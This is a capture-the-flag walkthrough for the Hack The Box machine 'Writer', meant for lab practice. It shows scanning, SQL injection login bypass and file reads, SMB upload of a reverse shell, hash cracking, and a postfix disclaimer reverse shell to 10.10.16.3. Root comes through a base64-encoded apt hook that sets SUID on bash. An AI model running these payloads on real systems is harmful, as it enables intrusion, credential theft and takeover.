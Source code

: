 # [Writer](https://app.hackthebox.com/machines/writer)

```bash
nmap -p- --min-rate 10000 10.10.11.101 -Pn
```

![Alt text](img/image.png)


After knowing open ports(22,80,139,445), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80,139,445 10.10.11.101 -Pn 
```

![Alt text](img/image-1.png)



Let's do directory enumeration for this web application.

```bash
gobuster dir -u http://10.10.11.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 
```

![Alt text](img/image-3.png)

From here, we see that there is page located in '/administrative'.

That's not CMS that we search for publicly known exploit,


But we can bypass this authentication via SQLI vulnerability.

```bash
username=admin' or 1=1 limit 1;-- -
password=dr4ks
```

![Alt text](img/image-2.png)


We can turn on repeater as because our payload which can be shown easily on front page.

Let's do UNION based SQL Injection.

```bash
payload=' union select 1,2,3,4,5,6 -- &password=
```

![Alt text](img/image-4.png)

We see that it prints string (2), we need to add malicious payload to retrieve sensitive files from application.

Let's read '/etc/passwd' file from our target.

```bash
payload=' union select 1,load_file("/etc/passwd"),3,4,5,6 -- &password=
```

![Alt text](img/image-5.png)

Now, I read the file '/etc/apache2/sites-enabled/000-default.conf'

![Alt text](img/image-6.png)


We see that it is Python application, let's read '__init__.py' file. ('/var/www/writer.htb/writer/__init__.py')

![Alt text](img/image-7.png)


We grab credentials from here.

admin: ToughPasswordToCrack


As we read '/etc/passwd' file, possible users are www-data,kyle,john .

Let's try to access SMB Share via these credentials and it worked.

kyle: ToughPasswordToCrack


We use `smbmap` command to enumerate SMB Share.

```bash
smbmap -H 10.10.11.101 -u kyle -p ToughPasswordToCrack
```

![Alt text](img/image-8.png)

I see that I have write permission for second share.

Let's read this by using `smbclient` command.

```bash
smbclient -U '10.10.11.101\kyle' //10.10.11.101/writer2_project
```

![Alt text](img/image-9.png)


![Alt text](img/image-10.png)



If I just add, reverse shell into here, then browse the main page, it can give me shell.

![Alt text](img/image-11.png)

Let's modify this script and put into SMB share.

![Alt text](img/image-12.png)


After browsing the main page (index.html), I got reverse shell from port 1337.

![Alt text](img/image-13.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-14.png)


I find `manage.py` file on this location '/var/www/writer2_project' which gives me access to MariaDB.


```bash
python3 manage.py dbshell
```


![Alt text](img/image-15.png)


I find credential from 'auth_user' table which is for `kyle` user.

![Alt text](img/image-16.png)


Let's crack this via `hashcat` tool.

```bash
hashcat -m 10000 hash.txt --wordlist /usr/share/wordlists/rockyou.txt  
```

![Alt text](img/image-19.png)

We find the password, let's login into SSH via below credentials.

kyle: marcoantonio


user.txt

![Alt text](img/image-17.png)

I see that I am in the 'filter' group via `id` command.

![Alt text](img/image-18.png)



Let's search the files via this group.

```bash
find / -group filter 2>/dev/null
```


![Alt text](img/image-20.png)


I can do privilege escalation via '/etc/postfix/claimer' by writing email to 'john' which consist of reverse shell.

```bash
echo "bash -c 'bash -i &>/dev/tcp/10.10.16.3/1338 0>&1'" > /etc/postfix/disclaimer && echo -e "HELO writer.htb\nMail From:kyle@writer.htb\nRCPT To: john@writer.htb\nData\nTo: john@writer.htb\nFrom: kyle@writer.htb\nSubject: Testing\nTesting\n." | nc localhost 25
```
![Alt text](img/image-21.png)


I got reverse shell from port (1338).

![Alt text](img/image-22.png)


I got private key (id_rsa) of 'john' user, and login via `ssh` command.

![Alt text](img/image-23.png)


![Alt text](img/image-24.png)


While doing privilege escalation, I see that this user belongs to `management` group.

![Alt text](img/image-25.png)


That's why have full privilege to '/etc/apt/apt.conf.d' file, also `apt update` works in background process (observed by `pspy` tool)


Let's start to exploitation.

```bash
cd /etc/apt/apt.conf.d
echo 'apt::Update::Pre-Invoke {"echo L2Jpbi9iYXNoIC1jICJjaG1vZCA0Nzc3IC9iaW4vYmFzaCIK | base64 -d | bash"};' > /etc/apt/apt.conf.d/000-shell
/bin/bash -p
```


Note: Base64 encoded command which added full privilege and SUID binary into this file and real command is `/bin/bash -c "chmod 4777 /bin/bash"`

![Alt text](img/image-26.png)


root.txt

![Alt text](img/image-27.png)